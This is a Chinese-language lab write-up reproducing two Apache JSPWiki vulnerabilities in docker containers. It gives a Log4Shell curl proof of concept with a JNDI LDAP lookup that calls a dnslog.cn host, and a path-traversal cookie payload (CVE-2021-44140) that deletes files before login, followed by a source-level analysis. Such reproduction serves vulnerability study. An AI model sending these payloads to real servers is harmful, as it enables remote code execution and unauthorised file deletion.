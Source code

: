 ## 相关漏洞
### CVE-2021-44228 Log4shell 

#### 漏洞描述

影响范围(已确认)：v2.11.0

![image-20220110151507777](jspwiki.assets/image-20220110151507777.png)



#### 漏洞复现

##### 环境搭建

查看仓库存在哪些版本的镜像

```shell
curl https://registry.hub.docker.com/v1/repositories/jspwiki/tags| tr -d '[\[\]" ]' | tr '}' '\n'| awk -F: -v image='jspwiki' '{if(NR!=NF && $3 != ""){printf("%s:%s\n",image,$3)}}'
```

![image-20220110150226665](jspwiki.assets/image-20220110150226665.png)

有存在log4shell版本(v2.11.0)的镜像，拉取

```shell
sudo docker pull apache/jspwiki:release-2.11.0

# 或者
docker pull vultarget/jspwiki_log4j_rce:2.11.0
```

查看本地已经pull的镜像

```
sudo docker images
```

![image-20220110171735060](jspwiki.assets/image-20220110171735060.png)

启动

```shell
# 提前将调试端口映射出来
sudo docker run -d -p 8080:8080 -p 5005:5005  --name jspwiki_log4shell_debug  vultarget/jspwiki_log4j_rce:2.11.0
```

应用首页

![image-20220110172151844](jspwiki.assets/image-20220110172151844.png)



##### 漏洞验证

**proof of concept**

```
curl -vv http://10.10.10.139:8080/wiki/$%7Bjndi:ldap:$%7B::-/%7D/9p1lvv.dnslog.cn%7D/
```

![image-20220110172050167](jspwiki.assets/image-20220110172050167.png)



### CVE-2021-44140 Pre-auth 文件删除

#### 漏洞描述

https://jspwiki-wiki.apache.org/Wiki.jsp?page=CVE-2021-44140

影响范围：Apache JSPWiki up to 2.11.0.M8

#### 漏洞复现

##### 环境搭建

###### 基于docker

搜索镜像

```
sudo docker search jspwiki
```

![image-20220110142929486](jspwiki.assets/image-20220110142929486.png)

```
sudo docker pull vulfocus/jspwiki-cve_2021_44140
docker run -d -p 8080:8080 --name jspwiki vulfocus/jspwiki-cve_2021_44140
```

![image-20220110143652926](jspwiki.assets/image-20220110143652926.png)

如图，成功搭建

![image-20220110143822970](jspwiki.assets/image-20220110143822970.png)

```
# 二次启动时，使用container id 即可
sudo dokcer ps -a
sudo docker start a50359cfb0d1

# 进入container 内部
sudo docker exec -it a50359cfb0d1 /bin/sh
```

![image-20220110153629595](jspwiki.assets/image-20220110153629595.png)

配置远程调试,在/bin/catalina.sh中添加如下代码：

```
CATALINA_OPTS="-Xdebug -Xrunjdwp:transport=dt_socket,address=5005,suspend=n,server=y"
```

- address=5005: 5005为远程debug时监听的端口

![image-20220110154139526](jspwiki.assets/image-20220110154139526.png)

退出，将调试端口也映射出来

- 为运行的container增加端口 
  - https://stackoverflow.com/questions/19335444/how-do-i-assign-a-port-mapping-to-an-existing-docker-container

```
docker commit jspwiki jspwiki_debug
sudo docker run -p 8080:8080 -p 5005:5005 -td jspwiki_debug
```

本地idea测试

![image-20220110155734110](jspwiki.assets/image-20220110155734110.png)

`Connected` 表示成功

![image-20220110155805314](jspwiki.assets/image-20220110155805314.png)





##### 漏洞验证

**proof of concept**

现在/tmp/目录下创建flag.txt

![image-20220110161543541](jspwiki.assets/image-20220110161543541.png)



```shell
Get /Logout.jsp
...
...
Cookie: JSESSIONID=xxx; JSPWikiAssertedName=xxx; JSPWikiUserPrefs=xxx;JSPWikiUID=../../../../../../../../../../../../../../../tmp/flag.txt
```

![image-20220110161704602](jspwiki.assets/image-20220110161704602.png)

成功删除flag.txt

![image-20220110161955992](jspwiki.assets/image-20220110161955992.png)

#### 漏洞分析

根据漏洞名称。可以猜出漏洞点在注销处。

测试版本：2.11.0.M7

跟进

- logout.jsp

  调用CookieAuthenticationLoginModule.clearLoginCookie() 删除cookie

  ![image-20220110131939248](jspwiki.assets/image-20220110131939248.png)

- org.apache.wiki.auth.login.CookieAuthenticationLoginModule#clearLoginCookie

  ![image-20220110132101561](jspwiki.assets/image-20220110132101561.png)

- org.apache.wiki.auth.login.CookieAuthenticationLoginModule#getLoginCookie(javax.servlet.http.HttpServletRequest)

  存在可控参数JSPWikiUID

  ![image-20220110133028087](jspwiki.assets/image-20220110133028087.png)

  若满足条件,则调用getCookieFile()，返回值赋值给uid

  ```
  String uid = getLoginCookie(request);
  ```

- org.apache.wiki.auth.login.CookieAuthenticationLoginModule#getCookieFile

  ![image-20220110132647092](jspwiki.assets/image-20220110132647092.png)

  创建cookieDir

  ```
  # 拼接后作为路径
  File cookieDir = new File(engine.getWorkDir(), "logincookies");
  ```

  若该路径不存在，则创建，执行流程走到第2个else分支

  ```
  File file = new File(cookieDir, uid);
  ```

  根据cookdir 和 uid 创建文件，返回值赋值给cf 。

  若满足条件

  ```
  cf != null && !cf.delete()
  ```

  则将文件cf进行删除处理
  
  ![image-20220110132939245](jspwiki.assets/image-20220110132939245.png)

